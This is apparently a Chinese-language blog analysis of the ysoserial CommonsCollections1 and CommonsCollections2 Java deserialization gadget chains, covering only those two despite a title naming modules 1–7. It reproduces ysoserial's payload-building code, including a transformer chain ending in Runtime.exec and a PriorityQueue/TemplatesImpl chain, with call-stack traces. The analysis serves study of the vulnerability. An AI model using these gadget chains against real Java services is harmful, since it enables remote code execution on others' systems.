




# ysoserial CommonsCollections1-7模块分析

## 0x00 前言

`ysoserial`中的`CommonsCollections`系列模块，是在实际的Java反序列化漏洞利用中被用到比较多的模块。

## 0x01 CommonsCollections1

依赖：
```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

### 利用链分析

这次直接在`Runtime.getRuntime().exec()`下断点，命中后查看栈回溯的各层代码，理清利用链的调用过程。

图1：当`Runtime#exec()`被命中时，函数调用堆栈：


```java
public InvocationHandler getObject(final String command) throws Exception {
    final String[] execArgs = new String[] { command };
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
        new InvokerTransformer("exec",
            new Class[] { String.class }, execArgs),
        new ConstantTransformer(1) };

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

    return handler;
}
```

从`CommonsCollections1#getObject()`中可以知道，返回的是 `AnnotationInvocationHandler`类型，即`payload`为`AnnotationInvocationHandler`对象序列化后的
故栈回溯到`AnnotationInvocationHandler#readObject()`方法即可。

根据上图的函数调用堆栈，结合上一篇分析文章中提到的`Java动态代理`技术，可以比较容易的得出`CommonsCollections1`的利用链，如下：

```
AnnotationInvocationHandler#readObject()
  Map(Proxy)#entrySet()
    AnnotationInvocationHandler#invoke()
      LazyMap#get()
        ChainedTransformer#transform()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#exec()
```

又因为`ChainedTransformer#iTransformers`是一个长度为`5`的数组，而且在上面的函数堆栈中，当`iTransformers[i]#transform()`最后一次被执行时，数组索引`i`为3，所以其实这里`iTransformers[i]#transform()`循环执行了四次，最后才命中`Runtime#exec()`。



```
AnnotationInvocationHandler#readObject()
  Map(Proxy)#entrySet()
    AnnotationInvocationHandler#invoke()
      LazyMap#get()
        ChainedTransformer#transform()
          ConstantTransformer#transform()
          InvokerTransformer#transform()
          InvokerTransformer#transform()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#exec()
```

从`CommonsCollections1#getObject()`可知，`ChainedTransformer#iTransformers`指向的数组如下：
```java
final Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[] {
        String.class, Class[].class }, new Object[] {
        "getRuntime", new Class[0] }),
    new InvokerTransformer("invoke", new Class[] {
        Object.class, Object[].class }, new Object[] {
        null, new Object[0] }),
    new InvokerTransformer("exec",
        new Class[] { String.class }, execArgs),
    new ConstantTransformer(1) };
```

所以`iTransformers[i]#transform()`循环执行四次的过程大概如下：
```
iTransformers[0].transform(object)
—> ConstantTransformer.transform("entrySet")
—> return Runtime.class  (next object)

iTransformers[1].transform(object)
—> InvokerTransformer.transform(Runtime.class)
—> return Method(object) [代表Runtime#getRuntime()]   (next object)

iTransformers[2].transform(object)
—> InvokerTransformer.transform(Method getRuntime)
—> return Runtime(object)  (next object)

iTransformers[3].transform(object)
—> InvokerTransformer.transform(Runtime obj)
—> return obj.exec(cmd) [即调用Runtime#exec(cmd)]
```

最终，`CommonsCollections1`的利用链如下：
```
AnnotationInvocationHandler#readObject()
  Map(Proxy)#entrySet()
    AnnotationInvocationHandler#invoke()
      LazyMap#get()
        ChainedTransformer#transform()
          ConstantTransformer#transform()
          InvokerTransformer#transform()
            Method#invoke()
              Class#getMethod()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#getRuntime()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#exec()
```

## 0x02 CommonsCollections2

依赖：
```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```
### 前置知识1：PriorityQueue

首先，`PriorityQueue`继承自类`AbstractQueue`，而类`AbstractQueue`又实现了接口`Queue`。

而`Queue`是一个先进先出(FIFO)的队列。下面举个场景例子：
在银行柜台办业务时，我们假设只有一个柜台在办理业务，但是办理业务的人很多，怎么办？
可以每个人先取一个号，例如：`A1`、`A2`、`A3`...然后，按照号码顺序依次办理，实际上这就是一个`Queue`。
如果这时来了一个VIP客户，他的号码是`V1`，虽然当前排队的是`A10`、`A11`、`A12`...但是柜台下一个呼叫的客户号码却是`V1`。

这个时候，我们发现，要实现"VIP插队"的业务，用`Queue`就不行了，因为`Queue`会严格按FIFO的原则取出队首元素。我们需要的是优先队列：`PriorityQueue`。

`PriorityQueue`和`Queue`的区别在于，它的出队顺序与元素的优先级有关，对`PriorityQueue`调用`remove()`或`poll()`方法，返回的总是优先级最高的元素。

要使用`PriorityQueue`，我们就必须给每个元素定义"优先级"。我们以实际代码为例，先看看`PriorityQueue`的行为：
```java
import java.util.PriorityQueue;
import java.util.Queue;

public class Main {
    public static void main(String[] args) {
        Queue<String> q = new PriorityQueue<>();
        // 添加3个元素到队列:
        q.offer("apple");
        q.offer("pear");
        q.offer("banana");
        System.out.println(q.poll()); // apple
        System.out.println(q.poll()); // banana
        System.out.println(q.poll()); // pear
        System.out.println(q.poll()); // null,因为队列为空
    }
}
```

如上代码，我们放入的顺序是"apple"、"pear"、"banana"，但是取出的顺序却是"apple"、"banana"、"pear"，这是因为从字符串的排序看，"apple"排在最前面，"pear"排在最后面。

因此，放入`PriorityQueue的`元素，必须实现`Comparable`接口，`PriorityQueue`会根据元素的排序顺序决定出队的优先级。比如上面的`String`就是实现了`Comparable`接口。

如果我们要放入的元素并没有实现`Comparable`接口怎么办？`PriorityQueue`允许我们提供一个`Comparator`对象来判断两个元素的顺序。示例代码如下：
```java
public class Main {
    public static void main(String[] args) {
        Queue<User> q = new PriorityQueue<>(new UserComparator());
        // 添加3个元素到队列:
        q.offer(new User("Bob", "A1"));
        q.offer(new User("Alice", "A2"));
        q.offer(new User("Boss", "V1"));
        System.out.println(q.poll()); // Boss/V1
        System.out.println(q.poll()); // Bob/A1
        System.out.println(q.poll()); // Alice/A2
        System.out.println(q.poll()); // null,因为队列为空
    }
}

class UserComparator implements Comparator<User> {
    public int compare(User u1, User u2) {
        if (condition) {
            return -1;
        } else {
            return 1;
        }
    }
}

class User {
    public final String name;
    public final String number;

    public User(String name, String number) {
        this.name = name;
        this.number = number;
    }

    public String toString() {
        return name + "/" + number;
    }
}

```

### 前置知识2：Javassist

`javassist`是一个开源的分析、编辑和创建Java字节码的类库。其主要的优点，在于简单，而且快速。直接使用 Java编码的形式，而不需要了解虚拟机指令，就能动态改变类的结构，或者动态生成类。

`Ysoserial`在生成`payload`中也有使用到`javassist`类库。


### 利用链分析

首先，依旧是在`Runtime.getRuntime().exec()`下断点。
当`Runtime#exec()`被命中时，函数调用堆栈如下图：


又由`CommonsCollections2#getObject()`方法可知，返回的是`PriorityQueue`类型，即payload为`PriorityQueue`对象序列化后的，故栈回溯到`PriorityQueue#readObject()`方法即可。

```java
public Queue<Object> getObject(final String command) throws Exception {
  final Object templates = Gadgets.createTemplatesImpl(command);
  // mock method name until armed
  final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
  
  // create queue with numbers and basic comparator
  final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
  // stub data for replacement later
  queue.add(1);
  queue.add(1);
  
  // switch method called by comparator
  Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
  
  // switch contents of queue
  final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
  queueArray[0] = templates;
  queueArray[1] = 1;
  
  return queue;
}
```

通过上图所示的函数调用堆栈，结合`CommonsCollections2#getObject()`方法，可以初步得到`CommonsCollections2`的利用链如下：
```
PriorityQueue#readObject()
  PriorityQueue#heapify()
    PriorityQueue#siftdown()
      PriorityQueue#siftDownUsingComparator()
        TransformingComparator#compare()
          InvokerTransformer#transform()
            Method#invoke() //即: TemplatesImpl#newTransformer()
              TemplatesImpl#getTransletInstance()
                _class[_transletIndex].newInstance() //???
                  Runtime#exec()
```




### 问题1
既然`PriorityQueue`的成员变量`queue`是被`transient`关键字修饰的，为什么`queue`中的元素还是可以被序列化和反序列化?

这是因为`PriorityQueue`实现了自己的`writeObject()`和`readObject()`方法,如下：
```java
private void writeObject(java.io.ObjectOutputStream s)
    throws java.io.IOException {
    // Write out element count, and any hidden stuff
    s.defaultWriteObject();

    // Write out array length, for compatibility with 1.5 version
    s.writeInt(Math.max(2, size + 1));

    // Write out all elements in the "proper order".
    for (int i = 0; i < size; i++)
        s.writeObject(queue[i]);
}

private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
}
```
可以看到，`PriorityQueue`在序列化`writeObject()`实现中，先调用默认序列化方法`defaultWriteObject()`，该方法不会序列化经过`transient`修饰的`queue`成员变量，但后面的`for`循环，会将`queue`的元素依次序列化。`PriorityQueue#readObject()`同理。


### 问题2

为什么在`CommonsCollections#getObject()`中，要`PriorityQueue`队列要先`add()`两个`1`进行占位？

原因在于`PriorityQueue#add()` 方法会对 `PriorityQueue`的成员变量`size`进行加`1`处理。
而`PriorityQueue`在反序列化的过程中（`readObject()`->`heapify()`->`siftDown()`) 会对这个成员变量`size`的值进行判断。如果前面没有先两次`add(1)`, 那么`size`的值就是`0`，反序列化的时候不会触发利用链。


## Reference

[1]https://www.liaoxuefeng.com/wiki/1252599548343744/1265120632401152
[2]https://xz.aliyun.com/t/8010#toc-2
[3]https://github.com/jboss-javassist/javassist/wiki/Tutorial-1